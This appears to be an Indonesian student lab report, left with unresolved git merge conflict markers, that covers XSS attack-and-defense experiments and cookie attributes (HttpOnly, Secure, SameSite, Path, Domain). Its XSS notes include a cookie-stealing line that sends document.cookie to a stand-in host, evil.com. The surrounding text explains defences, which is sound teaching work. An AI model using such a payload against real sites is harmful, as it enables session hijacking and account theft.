

<<<<<<< HEAD
LATIHAN 2:XSS Attack & Defense

Eksperimen 1:
Catatan: Muncul nama hacker yang dimasukkan tadi di bagian komentar

Eksperimen 2:
Catatan: Karena yang coba dimasukkan adalah gambar

Eksperimen 3:
Catatan: 
Cookie: session Test-hello; persistent Test-world; cookieRoot-bisa-dimana-saja; secureTest-secure; visitCount=76; sessionld-abc123xyz, username John Doe

Kalau dengan ini fetch('https://evil.com?cookie=' + document.cookie) gambar bisa muncul di komentar

Eksperimen 4:
Catatan: Latar belakang website berubah menjadi merah

Eksperimen 5:
Catatan: Sekarang semua script gagal dan ditampilkan di bagian komenter

Eksperimen 6:
Catatan: Versi secure aman karena textContent hanya memperlakukan input pengguna sebagai data teks mentah tanpa pernah mencoba membacanya sebagai instruksi atau kode program. Dengan cara ini, karakter berbahaya seperti <script> kehilangan kekuatannya karena browser hanya menampilkannya sebagai tulisan biasa di layar alih-alih menjalankannya sebagai perintah.

Berikut adalah jawaban singkat untuk membantu kamu memahami konsep keamanan ini lebih dalam:

1. Mengapa  Bisa Menjalankan JavaScript?
Atribut onerror adalah sebuah event handler yang dirancang untuk menjalankan kode jika gambar gagal dimuat; penyerang memanfaatkan ini dengan memberikan sumber gambar yang sengaja salah (misal: ) agar browser otomatis mengeksekusi perintah JavaScript di dalamnya.

2. Perbedaan Stored vs Reflected XSS (Perspektif Attacker)
Pada Stored XSS, penyerang "menanam" skrip permanen di database server (seperti komentar atau profil) agar semua orang yang melihat halaman itu terkena dampaknya, sedangkan pada Reflected XSS, penyerang harus menjebak korban secara spesifik untuk mengklik tautan jahat yang memantulkan skrip dari URL kembali ke browser korban.

3. Mengapa HttpOnly Penting dalam XSS?
HttpOnly adalah pertahanan terakhir; meskipun penyerang berhasil menembus celah XSS, mereka tetap tidak bisa mencuri session ID melalui JavaScript (document.cookie), sehingga akun pengguna tetap aman dari pembajakan sesi.

4. Cara Aman Menampilkan Rich Text
Gunakan pustaka HTML Sanitizer (seperti DOMPurify) untuk membersihkan input pengguna dengan cara menghapus semua tag dan atribut berbahaya, sehingga hanya tag yang diizinkan (seperti <b> atau <i>) yang tetap ada.

5. Kegunaan Content Security Policy (CSP)
CSP adalah set aturan keamanan yang memberitahu browser sumber mana saja (domain, skrip, atau gaya) yang dipercaya untuk dijalankan, sehingga serangan skrip asing dari luar bisa diblokir secara otomatis.

Screenshot:

=======
Eksperimen 1: Session Cookie vs Persistent Cookie
sessionTest: [hilang/ada?] ada
persistentTest: [hilang/ada?] ada

Cookie dengan Path=/admin akan dikirim ke:
- /admin ✓ atau ✗? ✓
- /admin/dashboard ✓ atau ✗? ✓
- /profile ✓ atau ✗? ✗
- / ✓ atau ✗? ✗

Cookie Secure tersimpan di localhost HTTP? Ya (Ya/Tidak)
Mengapa bisa tersimpan? Karena browser exception

1. Mengapa Session Cookie (Tanpa Max-Age) Berguna untuk Login?Session cookie (atau transient cookie) tidak memiliki parameter Expires atau Max-Age. Hal ini sangat berguna karena:Keamanan Berbasis Sesi: Cookie ini disimpan di RAM, bukan di penyimpanan permanen (hard drive). Begitu pengguna menutup browser sepenuhnya, cookie tersebut dihapus.Mencegah Akses Tak Terbatas: Jika seseorang meminjam komputer pengguna setelah mereka selesai (dan menutup browser), mereka tidak akan bisa masuk kembali secara otomatis karena sesi telah berakhir secara lokal.
2. Atribut Cookie untuk Session ID di E-commerceJika saya membangun aplikasi e-commerce, saya akan menggunakan konfigurasi berikut untuk Session ID:AtributNilaiAlasanHttpOnlytrueMencegah skrip jahat (XSS) mencuri session ID.SecuretrueMemastikan cookie hanya dikirim melalui koneksi terenkripsi (HTTPS).SameSiteLax atau StrictMelindungi pengguna dari serangan CSRF (Cross-Site Request Forgery).Path/Memastikan sesi valid di seluruh bagian situs (keranjang, checkout, profil).
3. Risiko Jika Tidak Menggunakan HttpOnlyRisiko utamanya adalah Session Hijacking melalui serangan XSS (Cross-Site Scripting).Tanpa HttpOnly, penyerang bisa menyisipkan skrip JavaScript ke dalam halaman (misalnya melalui kolom komentar yang tidak difilter) yang berisi kode:document.write(document.cookie); atau mengirimkan cookie tersebut ke server mereka sendiri. Sekali penyerang mendapatkan Session ID Anda, mereka bisa "menyamar" sebagai Anda tanpa perlu tahu password Anda.
4. Kapan Menggunakan Expires vs Max-Age?Meskipun keduanya berfungsi untuk menentukan masa berlaku cookie, ada perbedaan teknis:Max-Age (Modern & Direkomendasikan): Menggunakan durasi dalam detik (misal: 3600 untuk 1 jam). Ini lebih akurat karena tidak bergantung pada sinkronisasi jam antara server dan komputer klien.Expires (Legacy): Menggunakan format tanggal/waktu yang spesifik. Digunakan jika Anda perlu mendukung browser yang sangat tua (seperti Internet Explorer lama).Tip: Jika keduanya ada, Max-Age akan diprioritaskan oleh browser modern.
5. Apa yang Terjadi Jika Domain di-set ke .example.com?Menambahkan tanda titik di depan domain (atau hanya menuliskan nama domain utama) membuat cookie tersebut menjadi Wildcard Cookie.Artinya, cookie tersebut akan dikirimkan ke domain utama dan semua sub-domainnya.Jika di-set di example.com, maka store.example.com, blog.example.com, dan dev.example.com juga bisa membaca cookie tersebut.Risiko: Jika salah satu sub-domain (misal: situs testing) memiliki celah keamanan, penyerang bisa mengakses cookie sesi yang seharusnya hanya untuk domain utama.

>>>>>>> f6861ce8f209d511627a1850ffccd32e5fef0165
